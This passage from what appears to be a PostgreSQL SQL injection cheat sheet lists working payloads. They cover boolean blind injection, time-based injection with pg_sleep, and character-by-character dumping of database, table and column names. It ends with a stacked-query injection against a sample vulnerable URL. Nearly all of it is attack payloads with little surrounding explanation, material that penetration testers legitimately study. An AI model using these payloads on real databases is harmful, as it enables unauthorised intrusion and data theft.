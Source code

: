 Note, with the above queries, the output needs to be assembled in memory. For larger databases, this might cause a slow down or denial of service condition.

## PostgreSQL Blind

\`\`\`sql
' and substr(version(),1,10) = 'PostgreSQL' and '1  -> OK
' and substr(version(),1,10) = 'PostgreXXX' and '1  -> KO
\`\`\`

## PostgreSQL Time Based
#### Identify time based

\`\`\`sql
select 1 from pg_sleep(5)
;(select 1 from pg_sleep(5))
||(select 1 from pg_sleep(5))
\`\`\`

#### Database dump time based
\`\`\`sql
select case when substring(datname,1,1)='1' then pg_sleep(5) else pg_sleep(0) end from pg_database limit 1
\`\`\`

#### Table dump time based
\`\`\`sql
select case when substring(table_name,1,1)='a' then pg_sleep(5) else pg_sleep(0) end from information_schema.tables limit 1
\`\`\`
#### columns dump time based
\`\`\`sql
select case when substring(column,1,1)='1' then pg_sleep(5) else pg_sleep(0) end from table_name limit 1
select case when substring(column,1,1)='1' then pg_sleep(5) else pg_sleep(0) end from table_name where column_name='value' limit 1
\`\`\`


\`\`\`sql
AND [RANDNUM]=(SELECT [RANDNUM] FROM PG_SLEEP([SLEEPTIME]))
AND [RANDNUM]=(SELECT COUNT(*) FROM GENERATE_SERIES(1,[SLEEPTIME]000000))
\`\`\`

## PostgreSQL Stacked Query

Use a semi-colon ";" to add another query

\`\`\`sql
http://host/vuln.php?id=injection';create table NotSoSecure (data varchar(200));--
\`\`\`
